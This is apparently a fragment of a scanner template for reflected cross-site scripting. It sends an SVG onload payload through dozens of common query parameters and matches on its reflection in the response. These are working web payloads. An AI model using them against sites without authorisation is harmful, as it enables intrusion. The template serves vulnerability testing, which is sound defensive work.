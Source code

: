 - {{BaseURL}}/?api=%27%3E%22%3Csvg%2Fonload=confirm%28%27api%27%29%3E&api_key=%27%3E%22%3Csvg%2Fonload=confirm%28%27api_key%27%29%3E&begindate=%27%3E%22%3Csvg%2Fonload=confirm%28%27begindate%27%29%3E&callback=%27%3E%22%3Csvg%2Fonload=confirm%28%27callback%27%29%3E&categoryid=%27%3E%22%3Csvg%2Fonload=confirm%28%27categoryid%27%29%3E&csrf_token=%27%3E%22%3Csvg%2Fonload=confirm%28%27csrf_token%27%29%3E&email=%27%3E%22%3Csvg%2Fonload=confirm%28%27email%27%29%3E&emailto=%27%3E%22%3Csvg%2Fonload=confirm%28%27emailto%27%29%3E&enddate=%27%3E%22%3Csvg%2Fonload=confirm%28%27enddate%27%29%3E&immagine=%27%3E%22%3Csvg%2Fonload=confirm%28%27immagine%27%29%3E&item=%27%3E%22%3Csvg%2Fonload=confirm%28%27item%27%29%3E&jsonp=%27%3E%22%3Csvg%2Fonload=confirm%28%27jsonp%27%29%3E&l=%27%3E%22%3Csvg%2Fonload=confirm%28%27l%27%29%3E&lang=%27%3E%22%3Csvg%2Fonload=confirm%28%27lang%27%29%3E&list_type=%27%3E%22%3Csvg%2Fonload=confirm%28%27list_type%27%29%3E
- {{BaseURL}}/?month=%27%3E%22%3Csvg%2Fonload=confirm%28%27month%27%29%3E&page_id=%27%3E%22%3Csvg%2Fonload=confirm%28%27page_id%27%29%3E&password=%27%3E%22%3Csvg%2Fonload=confirm%28%27password%27%29%3E&terms=%27%3E%22%3Csvg%2Fonload=confirm%28%27terms%27%29%3E&token=%27%3E%22%3Csvg%2Fonload=confirm%28%27token%27%29%3E&type=%27%3E%22%3Csvg%2Fonload=confirm%28%27type%27%29%3E&unsubscribe_token=%27%3E%22%3Csvg%2Fonload=confirm%28%27unsubscribe_token%27%29%3E&year=%27%3E%22%3Csvg%2Fonload=confirm%28%27year%27%29%3E
### Matchers

**Type - word**
- part - body
- condition - or
- words
    1. '>"\<svg/onload=confirm('q')>
    2. '>"\<svg/onload=confirm('s')>
    3. '>"\<svg/onload=confirm('search')>
    4. '>"\<svg/onload=confirm('id')>
    5. '>"\<svg/onload=confirm('action')>
    6. '>"\<svg/onload=confirm('keyword')>
    7. '>"\<svg/onload=confirm('query')>
    8. '>"\<svg/onload=confirm('page')>
    9. '>"\<svg/onload=confirm('keywords')>
    10. '>"\<svg/onload=confirm('url')>
    11. '>"\<svg/onload=confirm('view')>
    12. '>"\<svg/onload=confirm('cat')>
    13. '>"\<svg/onload=confirm('name')>
    14. '>"\<svg/onload=confirm('key')>
    15. '>"\<svg/onload=confirm('p')>
    16. '>"\<svg/onload=confirm('month')>
    17. '>"\<svg/onload=confirm('page_id')>
    18. '>"\<svg/onload=confirm('password')>
    19. '>"\<svg/onload=confirm('terms')>
    20. '>"\<svg/onload=confirm('token')>
    21. '>"\<svg/onload=confirm('type')>
    22. '>"\<svg/onload=confirm('unsubscribe_token')>
    23. '>"\<svg/onload=confirm('api')>
    24. '>"\<svg/onload=confirm('api_key')>
    25. '>"\<svg/onload=confirm('begindate')>
    26. '>"\<svg/onload=confirm('callback')>
    27. '>"\<svg/onload=confirm('categoryid')>
    28. '>"\<svg/onload=confirm('csrf_token')>
    29. '>"\<svg/onload=confirm('email')>
    30. '>"\<svg/onload=confirm('emailto')>
    31. '>"\<svg/onload=confirm('enddate')>
    32. '>"\<svg/onload=confirm('immagine')>
    33. '>"\<svg/onload=confirm('item')>
    34. '>"\<svg/onload=confirm('jsonp')>
    35. '>"\<svg/onload=confirm('l')>
    36. '>"\<svg/onload=confirm('lang')>
    37. '>"\<svg/onload=confirm('list_type')>
    38. '>"\<svg/onload=confirm('year')>
